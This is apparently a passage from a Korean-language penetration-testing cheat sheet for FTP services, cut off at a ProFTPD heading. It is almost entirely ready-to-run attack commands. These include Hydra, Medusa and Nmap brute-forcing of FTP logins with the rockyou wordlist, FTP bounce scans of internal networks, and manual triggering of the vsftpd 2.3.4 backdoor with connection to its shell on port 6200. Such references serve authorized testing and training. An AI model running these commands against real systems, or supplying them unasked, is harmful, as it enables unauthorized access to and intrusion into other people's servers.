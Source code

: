 ### 🚫 익명 접근 실패시 (브루트포스)

```bash
# Hydra를 이용한 브루트포스
hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://{IP}
hydra -l ftp -P /usr/share/wordlists/rockyou.txt ftp://{IP}
hydra -l user -P /usr/share/wordlists/rockyou.txt ftp://{IP}

# 일반적인 사용자명으로 브루트포스
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/rockyou.txt ftp://{IP}

# 특정 사용자 발견시 (다른 서비스에서 수집한 정보)
hydra -l {USERNAME} -P /usr/share/wordlists/rockyou.txt ftp://{IP}

# Medusa 사용
medusa -h {IP} -u admin -P /usr/share/wordlists/rockyou.txt -M ftp

# Nmap 브루트포스 스크립트
nmap --script ftp-brute -p 21 {IP}
```

### 🔄 FTP 바운스 공격

```bash
# 포트 스캔에 FTP 바운스 활용
nmap -b anonymous:anonymous@{FTP_IP} {TARGET_IP}

# 내부 네트워크 스캔
nmap -b anonymous:anonymous@{FTP_IP} 192.168.1.0/24

# 특정 포트 스캔
nmap -b anonymous:anonymous@{FTP_IP} -p 22,80,443 {TARGET_IP}
```

### 🗂️ vsftpd 2.3.4 백도어 (특정 버전)

```bash
# vsftpd 2.3.4 백도어 확인
nmap --script ftp-vsftpd-backdoor -p 21 {IP}

# 수동 백도어 트리거
telnet {IP} 21
USER admin:)
PASS password

# 백도어 포트 확인 (6200)
telnet {IP} 6200
nc -nv {IP} 6200
```

### 📊 ProFTPD 취약점
